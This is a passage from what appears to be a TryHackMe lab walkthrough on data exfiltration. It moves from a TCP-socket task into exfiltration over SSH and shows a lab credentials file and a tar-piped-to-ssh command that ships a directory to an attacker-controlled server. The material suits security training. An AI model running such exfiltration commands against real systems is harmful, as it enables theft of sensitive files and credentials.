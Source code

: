 Success! We exfiltrated data from a victim machine to an attacker machine using theÂ TCPÂ socket in this task.


![Pasted image 20250516175048.png](../../../IMAGES/Pasted%20image%2020250516175048.png)


# Exfiltration using SSH
---

In this task we will showÂ how to useÂ SSHÂ protocol to exfiltrate data over to an attacking machine.Â SSHÂ protocol establishes a secure channel to interact and move data between the client and server, so all transmission data is encrypted over the network or the Internet.

![Encrypted SSH communication channel](https://tryhackme-images.s3.amazonaws.com/user-uploads/5d617515c8cd8348d0b4e68f/room-content/aa723bb0e2c39dfc936b135c4912d1cf.png)  

To transfer data over theÂ SSH, we can use either the Secure Copy ProtocolÂ SCPÂ or theÂ SSHÂ client. Let's assume that we don't have theÂ SCPÂ command available to transfer data overÂ SSH. Thus, we will focus more on theÂ SSHÂ client in this task.  

As we mentioned earlier, an attacker needs to control a server, which in this case has anÂ SSHÂ server enabled, to receive the exfiltrated data. Thus, we will be using the AttackBox as ourÂ SSHÂ server in this scenario. You can also use the JumpBox since it has anÂ SSHÂ server enabled.  

Let's assume that we have gained access to sensitive data that must be transmitted securely. Â Let's connect to theÂ victim1Â orÂ victim2Â machine.

The data that needs to be transferred  

```markup
thm@victim1:~$ cat task5/creds.txt
admin:password
Admin:123456
root:toor
```

Let's use the same technique we discussed in the "exfiltration using aÂ TCPÂ socket" task, where we will be using the tar command to archive the data and then transfer it.

Exfiltration data from the victim1 machine  

```markup
thm@victim1:$ tar cf - task5/ | ssh thm@jump.thm.com "cd /tmp/; tar xpf -"
```

Let's break down the previous commandÂ and explain it:  

1. We used theÂ tarÂ command the same as the previous task to create an archive file of theÂ task5Â directory.
2. Then we passed the archived file over theÂ ssh.Â SSHÂ clients provide a way to execute a single command without having a full session.
3. We passed the command that must be executed in double quotations,Â "cdÂ /tmp/; tar xpf. In this case, we change the directory and unarchive the passed file.
